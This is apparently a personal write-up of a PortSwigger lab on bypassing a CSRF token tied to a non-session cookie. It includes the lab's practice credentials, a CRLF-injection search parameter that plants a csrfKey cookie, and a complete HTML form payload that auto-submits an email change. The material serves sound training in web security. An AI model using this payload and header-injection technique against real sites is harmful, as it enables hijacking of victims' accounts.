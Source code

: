 # Lab Writeup: CSRF where token is tied to non-session cookie

URL: https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

## Description

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution

1. Login using one of the above accounts
2. Try changing the email and intercept using burp, notice that there is `csrfKey` in the cookie also `csrf` in the body:

   Save both of them and drop the request so that they could be used in our exploit (1 time use only)

3. Login using a different account and try using the search bar in homepage, we could see that we have the following URL after search: `https://0ac600770493a5e68306ab36005c0083.web-security-academy.net/?search=test` we could try using the following search path parameter to change the `csrfKey` cookie: `/?search=test%0d%0aSet-Cookie:%20csrfKey=MWxqEVpxh43OQXFGf1cYZCURMialuclc%3b%20SameSite=None`:

4. Create the CSRF payload:

   ```html
   <!DOCTYPE html>
   <body>
     <form
       action="https://0a3d0072049c289d80543f5400cb000a.web-security-academy.net/my-account/change-email"
       method="POST"
     >
       <input
         type="hidden"
         name="csrf"
         value="hFn07BhpqJVH8r0xzxl0zo9aFF0E4equ"
       />
       <input type="email" name="email" value="hacker@gmail.com" />
     </form>
     <img
       src="https://0a3d0072049c289d80543f5400cb000a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=GO9RcQunsLfH50qCnia5kdIHT4ER0oQI%3b%20SameSite=None"
       alt=""
       onerror="document.forms[0].submit()"
     />
   </body>
   ```

   note that from the above html script, the `<img ... />` tag changes the `csrfKey` then upon error, it submits the form payload

5. Store and deliver exploit to victim, the lab should be solved:
   ![csrf-tied-token](/assets/csrf-tied-token.png)
